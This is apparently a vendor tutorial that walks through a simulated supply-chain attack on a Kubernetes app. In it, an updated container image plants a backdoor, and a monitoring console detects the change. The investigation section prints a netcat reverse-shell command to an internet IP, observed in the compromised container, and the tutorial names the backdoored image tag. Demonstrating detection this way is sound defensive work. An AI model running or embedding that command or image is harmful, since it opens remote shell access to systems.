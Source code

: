 # Scenario - Supply Chain attack

This scenario demonstrates a supply chain attack where a container image is getting an update with malicious code to create a backdoor to a kubernetes cluster environment. It shows how through the use of policies for applications running on the cluster, unanticipated changes in the behavior of these application can be detected early and remediated.

## Pre-requisites
You will need
- a cluster where you can deploy services, deployments, pods, with access to docker image hub for pulling images
- a kubectl client
- a kubectl configuration with its current context pointing to the cluster

## Initial setup

If you have not yet done the inital installation steps for these attack scenarios, refer to [Spyderbat eval repository](https://github.com/spyderbat/eval)

If your setup was successful, you should see a namespace called `supply-chain` in your cluster, and some resources in it, like so:

```sh
kubectl get all -n supply-chain

NAME                            READY   STATUS    RESTARTS   AGE
pod/mongodb-66b5d7df55-b6q5j    1/1     Running   0          18h
pod/rsvp-app-587559dbf4-fnvzq   1/1     Running   0          18h
pod/rsvp-app-587559dbf4-mbxkl   1/1     Running   0          18h

NAME               TYPE        CLUSTER-IP      EXTERNAL-IP   PORT(S)        AGE
service/mongodb    ClusterIP   10.43.220.107   <none>        27017/TCP      25h
service/rsvp-app   NodePort    10.43.201.79    <none>        80:30135/TCP   25h

NAME                       READY   UP-TO-DATE   AVAILABLE   AGE
deployment.apps/mongodb    1/1     1            1           25h
deployment.apps/rsvp-app   2/2     2            2           25h

NAME                                  DESIRED   CURRENT   READY   AGE
replicaset.apps/mongodb-66b5d7df55    1         1         1       18h
replicaset.apps/rsvp-app-587559dbf4   2         2         2       18h
```

## Inspecting the setup
We can have a look at what this looks like in the cluster, and what processes are running in the Spyderbat Console.

Log in to the console, click on the Kubernetes menu item in the navigation bar, pick your cluster in the Cluster dropdown, and click on New Search.

Now, pick the 'Workload View' to see all kubernetes artefacts, and in the facet filter on the left, select the supply-chain namespace.

![K8s view of the application](./supply_chain_1.png)

We can see a deployment/replicaset/pod for the mongodb backend for the application, and a deployment/replicaset with two pods for the web-tier of the application.

Let's have a closer look at the web tier, and inspect the manifest of the pod. Click on one of the rvsp-app pods and scroll down in the lower pane to inspect the kubernetes definition, down to the spec section.

![rsvp app pod spec](./supply_chain_2.png)

We can see the app is running an image `guyduchatelet/spyderbat-demo:1`

We can assess what is running in this image by inspecting the container that is running it. Right-click on the container and select 'investigate container'
![investigate container](./supply_chain_3.png)

This brings us to a process view of everything running inside of the container:

![container process view](./supply_chain_4.png)

We can tell from this the entrypoint of the container spawns a python process, and another child python process to run the web
server. That is the normal state of this web server container


## Running the Exploit

For this exploit, we are going to simulate a supply chain attack on
the image of the web app we deployed. Imagine a newer version of the image gets pushed to the image repo, and that image got compromised and contains embedded code to gain access, through a backdoor.

The application developers are unaware and will push a newer version
of the image.

Let's simulate that action by updating the web deployment to use a more recent version of the image.

Find the file app-policy.yaml under the modules directory of the eval repo, and open it up in your editor of choice.

Look for the deployment definition with name 'rsvp-app', and find the spec section. In the container properties, update the image from
`guyduchatelet/spyderbat-demo:1` to `guyduchatelet/spyderbat-demo:2`

After saving, now let's apply this change to the cluster:

```sh
kubectl apply -f app-policy.yaml

namespace/app-policy unchanged
deployment.apps/mongodb unchanged
service/mongodb unchanged
deployment.apps/rsvp-app configured
service/rsvp-app unchanged
```
We can see that the rsvp-app deployment is getting updated. The existing pods will be removed, and new pods will take their place.

## Investigating the Results

Give it a few minutes for these changes to take effect, and then we can go back to the Spyderbat UI to evaluate the change in behavior

Go back to the Kubernetes view in the UI, pick your cluster, update your start-time selection to 'Now', for the most recent view on your cluster, select the workload view. Then locate again the app-policy namespace, and the rsvp-app and its containers.

Depending on your timing, you might see both the older deployment (with the previous image) and the newer deployment side to side in this view, like here:

![container process view](./supply_chain_6.png)

On the left, we see the old deployment, on the right the new deployment came in. Already in this view, there is an indication things have changed - we see several redflags that have been raised on the new containers. These flags can be inspected for more detail. 

Let's pivot again into the full process view inside the container. Pick a container and inspect it again as before to look at the processes running inside. Here's what we see:

![compromised container process view](./supply_chain_5.png)
Clearly the behavior of this image has changed, it's no longer just running a python web server but is running several suspicious commands. We can see it is running a netcat command
```bash
/tmp/nc 54.161.223.45 443 -e /bin/bash
```
Which seems to have succeed in creating a backdoor towards a system on the internet.

## Next Steps

Given the identification of the backdoor, the most prudent course of action is to work with the application developer to roll back to the older version of the app, and further investigate other suspicious activity on the kubernetes nodes.

Spyderbat also can provide a very strong defense against this type of attack by leveraging a Guardian policy for a container image, that will specify explicitly what is the expected behavior of the image, and automatically alert on, or even kill pods where the behavior differs.

We will explore this in the next scenario.